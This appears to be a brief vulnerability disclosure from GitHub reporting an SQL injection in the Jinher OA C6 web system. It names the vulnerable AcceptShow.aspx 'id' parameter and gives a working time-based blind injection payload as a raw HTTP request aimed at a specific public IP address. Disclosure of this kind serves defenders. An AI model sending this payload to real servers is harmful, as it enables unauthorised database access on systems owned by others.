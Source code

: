 # Jinher OA System by JinherNetwork has SQL injection

BUG_Author: 孙一航 广州大学，樊琦 广州大学，孙彦斌 广州大学

vendors: http://www.jinher.com/Zproducts/index/id/391

Vulnerability File: /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=

Vulnerability location: /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=, id

dbname =C6

[+] Payload: /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=12';WAITFOR+DELAY+'0:0:2'--+-- // Leak place ---> main_event_id

```sql
GET /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=12';WAITFOR+DELAY+'0:0:2'--+-- HTTP/1.1
Host: 61.133.99.56:88
Connection: close
```

![image](https://github.com/user-attachments/assets/0d30a35f-af74-4aef-9a4d-3218be7cf645)
![image](https://github.com/user-attachments/assets/74fe8eb5-e318-4cf1-9354-ceee506d7c6c)

